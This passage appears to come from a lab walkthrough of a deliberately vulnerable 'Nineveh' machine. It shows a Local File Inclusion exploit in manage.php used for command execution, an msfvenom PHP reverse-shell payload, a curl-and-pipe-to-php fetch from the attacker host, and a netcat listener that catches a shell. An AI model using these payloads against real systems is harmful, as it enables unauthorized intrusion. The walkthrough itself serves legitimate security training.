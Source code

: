 Then, I moved to the web page on port 80, and executed the following instruction to check if is possible executing system commands through the Local File Inclusion vulnerability.

`http://192.168.0.150/department/manage.php?notes=files/ninevehNotes../../../../../../../var/tmp/poc.php&cmd=id`

![](/assets/images/ninevehv02/screenshot-14.png)

I started the apache server on the attacking machine, and created a php payload with msfvenom.

```console
root@kali:~# systemctl start apache2
root@kali:~# msfvenom -p php/reverse_perl lhost=192.168.0.140 lport=443 -o /var/www/html/z.txt
```

I started a netcat listener on port 443, and then I executed the following instruction in the browser.

`http://192.168.0.150/department/manage.php?notes=files/ninevehNotes../../../../../../../var/tmp/poc.php&cmd=curl 192.168.0.140/z.txt | php`

I got a shell with www-data privileges.

```console
root@kali:~# nc -vlnp 443
listening on [any] 443 ...
connect to [192.168.0.140] from (UNKNOWN) [192.168.0.150] 55012
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
